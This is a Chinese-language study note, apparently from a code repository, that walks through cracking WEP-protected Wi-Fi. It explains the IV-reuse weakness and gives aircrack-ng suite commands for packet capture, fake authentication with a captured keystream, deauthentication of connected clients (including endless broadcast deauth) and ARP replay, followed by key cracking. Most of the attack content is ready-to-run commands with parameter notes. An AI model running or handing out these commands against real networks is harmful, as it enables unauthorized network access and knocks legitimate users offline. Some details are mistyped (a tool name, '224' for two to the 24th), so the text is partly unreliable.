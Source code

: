 
# WEP攻击

* 破解原理

* 流程

* FAKE AUTHENTICATION

* DEAUTHENTICATION攻击

* ARP重放

## 破解原理

1. IV并非完全随机
2. 每224个包可能出现一次IV重用
3. 收集大量IV之后找出相同IV及其对应密文，分析得出共享密码
> ARP回包中包含IV  
只要在IV足够多的情况下，任何复杂程度的WEP密码都可以被破解
（IV量破解和暴力破解）


## 流程
> 启动monitor模式  
  启动抓包并保存抓包  
  Deauthentication抓取XOR文件  
  利用XOR文件与AP建立关联  
  执行ARP重放  
  Deauthentication触发ARP数据包  
  收集足够DATA之后破解密码  
  //利用抓到的keystream加密一个change发给AP，AP用这个keystream解密，确认解开，就可以建立关联。（keystream在.xor结尾的文件里(密文的)）先建立关联才能进行数据包的发收、攻击等。

* 有新用户连接上时
``` 
# 侦听这个AP的BSSID
airdump-ng -c X --bssid XXX -w xxx wlan0mon

# 利用XOR文件与AP建立关联
aireplay-ng -1 60 -e kifi -y keystream.xor -a AP的BSSID -h 自己的MAC地址
    /-1是authentication注入包的攻击方式，60s发一次，目标ESSID，抓取的密钥流，ESSID这个AP的BSSID的MAC，本机的无线MAC地址
    //keystream是密钥流=XOR=change+cifer
    //keystream有新用户连接上时才抓取到change从而计算出keystream。——>效率低



```

* 已经连接的情况
``` 
// Deauthentication抓取XOR文件
aireplay-ng -0 10 -a AP的BSSID -c 已经关联的STA的MAC wlan0mon
    //10次攻击，打击后PWR的值是0
    //Deauthentication是-0注入包的攻击方式（用于打掉已关联的关联AP与STA），基于自动重连，我们就可以抓到数据包
    从而得到keystream
    

```

* 通过上面两个得到keystream后，执行

``` 
# 执行ARP重放
//64位的密钥建议抓到20W以上的IV值，128位是150W以上的IV值。看情况，理论上IV值多越快。
//#Data里面代表IV值数据多少。
aireplay-ng -3 -b AP的MAC -h 本机无线MAC wlan0mon
```

* aircrack-ng XXX.cap

## FAKE AUTHENTICATION

> WEP破解全部需要首先伪造认证，以便与AP进行正常通信


* 不产生ARP数据包
``` 
// 每6000秒发送reauthentication
// -o 1 每次身份认证只发一组认证数据包
// -q 10 每10秒发keep-live帧
aireplay-ng -1 0 -e kifi -a <AP MAC> -h <YOUR MAC> <interface>
aireplay-ng -1 60 -o 1 -q 10 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>
```


## DEAUTHENTICATION攻击
> 强制客户端与AP断开关联  
      重连生成ARP请求，AP回包包含IV  
      WPA重连过程，过程抓取4步握手过程  
      无客户端情况下此攻击无效  
      
``` 
// 0就是无限发包，直至打掉
// 不指定-c参数时，以广播攻击所有客户端
// 每攻击发送128个包，64个给AP，64个给客户端    
// 物理足够接近被攻击者
aireplay-ng -0 0 -a kifi -c <Client MAC> <interface name>
```      
     
* ARP重放
> 侦听正常的ARP包并重放给AP  
  AP回包中包含大量弱IV——>重复出现
  
``` 
aireplay-ng -3 -b <AP MAC> -h <Source MAC> <interface name>
```
 